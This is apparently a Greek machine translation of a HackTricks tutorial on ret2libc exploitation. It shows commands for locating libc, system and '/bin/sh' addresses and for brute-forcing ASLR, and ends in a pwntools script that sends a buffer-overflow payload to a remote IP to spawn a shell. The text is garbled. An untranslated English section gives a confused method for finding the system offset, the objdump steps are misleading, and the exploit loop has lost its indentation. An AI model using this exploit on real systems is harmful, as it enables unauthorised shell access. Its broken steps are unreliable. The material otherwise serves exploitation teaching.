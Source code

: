 <details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>


**Εάν έχετε βρει ένα ευπάθεια δυαδικού αρχείου και πιστεύετε ότι μπορείτε να το εκμεταλλευτείτε χρησιμοποιώντας το Ret2Lib, εδώ μπορείτε να βρείτε μερικά βασικά βήματα που μπορείτε να ακολουθήσετε.**

# Εάν είστε **μέσα** στο **σύστημα φιλοξενίας**

## Μπορείτε να βρείτε τη **διεύθυνση της βιβλιοθήκης**c
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
Αν θέλετε να ελέγξετε αν το ASLR αλλάζει τη διεύθυνση της libc, μπορείτε να κάνετε:
```bash
for i in `seq 0 20`; do ldd <Ejecutable> | grep libc; done
```
## Λήψη της μετατόπισης της συνάρτησης system

To get the offset of the system function, we can use the following steps:

1. Create a simple program that calls the system function with a dummy command.
2. Compile the program with debugging symbols enabled.
3. Use a debugger, such as GDB, to analyze the program and find the offset of the system function.

Here is an example program in C:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    system("echo Hello, World!");
    return 0;
}
```

To compile the program with debugging symbols, use the `-g` flag:

```bash
gcc -g program.c -o program
```

Next, run the program in GDB:

```bash
gdb program
```

Once inside GDB, set a breakpoint at the system function:

```bash
break system
```

Run the program:

```bash
run
```

When the breakpoint is hit, use the `info functions` command to list all the functions and their addresses. Look for the address of the system function:

```bash
info functions
```

The offset of the system function can be calculated by subtracting the base address of the library where the function resides from the address of the function itself.

Note: The offset may vary depending on the system and library versions.
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
## Αποκτήστε τη μετατόπιση του "/bin/sh"

Για να αποκτήσετε τη μετατόπιση του αλφαριθμητικού "/bin/sh" στην μνήμη, μπορείτε να χρησιμοποιήσετε το εργαλείο `objdump`. Ακολουθήστε τα παρακάτω βήματα:

1. Εκτελέστε την εντολή `objdump -s -j .rodata <binary>` για να εμφανιστούν οι πληροφορίες της ενότητας `.rodata` του εκτελέσιμου αρχείου.
2. Αναζητήστε τη γραμμή που περιέχει το αλφαριθμητικό "/bin/sh".
3. Η μετατόπιση του αλφαριθμητικού "/bin/sh" θα είναι ο αριθμός που ακολουθεί την αντίστοιχη γραμμή.

Παρακάτω παρουσιάζεται ένα παράδειγμα εντολής:

```bash
objdump -s -j .rodata /path/to/binary | grep "/bin/sh"
```

Η έξοδος θα περιέχει τη μετατόπιση του αλφαριθμητικού "/bin/sh" στη μνήμη.
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
## /proc/\<PID>/maps

Εάν η διεργασία δημιουργεί **παιδιά** κάθε φορά που επικοινωνείτε μαζί της (διακομιστής δικτύου), προσπαθήστε να **διαβάσετε** αυτό το αρχείο (πιθανώς θα χρειαστείτε να είστε ρουτ).

Εδώ μπορείτε να βρείτε **ακριβώς πού φορτώνεται η βιβλιοθήκη libc** μέσα στη διεργασία και **πού θα φορτωθεί** για κάθε παιδί της διεργασίας.

![](<../../.gitbook/assets/image (95).png>)

Σε αυτήν την περίπτωση φορτώνεται στη διεύθυνση **0xb75dc000** (Αυτή θα είναι η βασική διεύθυνση της libc)

## Χρήση του gdb-peda

Αποκτήστε τη διεύθυνση της συνάρτησης **system**, της συνάρτησης **exit** και του αλφαριθμητικού **"/bin/sh"** χρησιμοποιώντας το gdb-peda:
```
p system
p exit
find "/bin/sh"
```
# Παράκαμψη του ASLR

Μπορείτε να προσπαθήσετε να κάνετε bruteforce τη διεύθυνση βάσης της βιβλιοθήκης libc.
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
# Κώδικας
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()    #Banner

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive() #?
```
<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
